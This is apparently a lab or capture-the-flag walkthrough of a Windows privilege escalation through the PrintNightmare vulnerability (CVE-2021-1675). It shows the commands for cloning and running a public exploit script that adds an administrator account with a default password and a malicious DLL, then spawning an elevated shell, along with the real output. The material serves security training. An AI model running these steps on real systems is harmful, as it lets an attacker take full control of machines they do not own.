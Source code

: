 We could take the simple option of right-clicking on PowerShell or cmd.exe and choosing to "Run as Administrator", but that's no fun. Instead, let's use a hacky little PowerShell command to start a new high-integrity command prompt running as our new administrator.

The command is as follows:  
`Start-Process powershell 'Start-Process cmd -Verb RunAs' -Credential adm1n`

Execute this in your PowerShell session and follow the steps to spawn a new PowerShell process as an Administrator!  

 Completed

Run the command `whoami /groups` in the new window. You should see `BUILTIN\Administrators` in the list of groups, and a line at the bottom of the output containing `Mandatory Label\High Mandatory Level`.

whoami /groups

```powershell
  
PS C:\Windows\system32> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                                    Type             SID         
============================================================= ================ ============
Everyone                                                      Well-known group S-1-1-0     
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114   
BUILTIN\Administrators                                        Alias            S-1-5-32-544
BUILTIN\Users                                                 Alias            S-1-5-32-545
NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11
NT AUTHORITY\This Organization                                Well-known group S-1-5-15
NT AUTHORITY\Local account                                    Well-known group S-1-5-113
LOCAL                                                         Well-known group S-1-2-0
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
```

These mean that you are running as an administrator with full access over the machine. Congratulations!

```
 git clone https://github.com/calebstewart/CVE-2021-1675.git

┌──(kali㉿kali)-[/tmp/CVE-2021-1675]
└─$ ls
CVE-2021-1675.ps1  nightmare-dll  README.md

Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Atlas> . \\tsclient\share\CVE-2021-1675\CVE-2021-1675.ps1

Security warning
Run only scripts that you trust. While scripts from the internet can be useful, this script can potentially harm your
computer. If you trust this script, use the Unblock-File cmdlet to allow the script to run without this warning
message. Do you want to run \\tsclient\share\CVE-2021-1675\CVE-2021-1675.ps1?
[D] Do not run  [R] Run once  [S] Suspend  [?] Help (default is "D"): R
PS C:\Users\Atlas> Invoke-Nightmare
[+] using default new user: adm1n
[+] using default new password: P@ssw0rd
[+] created payload at C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_18b0d38ddfaee729\Amd64\mxdwdrv.dll"
```